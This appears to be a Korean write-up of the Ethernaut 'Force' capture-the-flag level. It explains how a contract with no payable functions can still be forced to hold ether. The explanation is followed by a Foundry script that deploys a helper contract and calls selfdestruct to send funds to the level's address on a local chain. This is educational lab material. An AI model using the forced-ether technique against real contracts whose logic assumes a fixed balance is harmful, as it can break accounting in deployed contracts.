 # 지문

어떤 컨트랙트는 단순히 당신의 돈을 받지 않을 수도 있습니다 ¯\\\_(ツ)\_/¯

이 레벨의 목표는 **컨트랙트의 잔액(balance)을 0보다 크게 만드는 것**입니다.

도움이 될 수 있는 것들:

* **폴백(fallback) 메서드**
* 어떤 경우에는 컨트랙트를 공격하는 가장 좋은 방법이 **또 다른 컨트랙트를 이용하는 것**일 수 있음
* 상단의 **"?" 페이지**에서 **"Beyond the console"** 섹션 참고


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

# 풀이 

`Force` contract안에 receive/fallback handler가 없어서 Native Token을 받을 수 없는것같지만 몇가지 트릭으로 Native Token을 전송할 수 있음.

가장 쉬운방법으로 알려진게 `selfdestruct`를 이용한 Native Token 전송임.

그외에 Consensus Layer에서 출금기능의 receiver를 저 contract로 지정한다던가 하는 trick도 쓸 수 있음.

Go-ethereum을 분석해봤을 때 `AddBalance`나 이런 node implementation level에서 balance를 더해주는건 contract 코드의 영향을 받지않기 때문에 가능한것임

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
}

contract Giver {

    constructor() public payable {}
    function trigger(address target) public {
        selfdestruct(payable(target));
    }

    receive() external payable {}
}
contract SolveScript is Script {
    address public target = 0x56639dB16Ac50A89228026e42a316B30179A5376;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        console.log("target balance : %d", target.balance);
        Giver giver = new Giver{value:100}();
        giver.trigger(target);

        console.log("target balance after poc : %d", target.balance);
        vm.stopBroadcast();
    }
}
```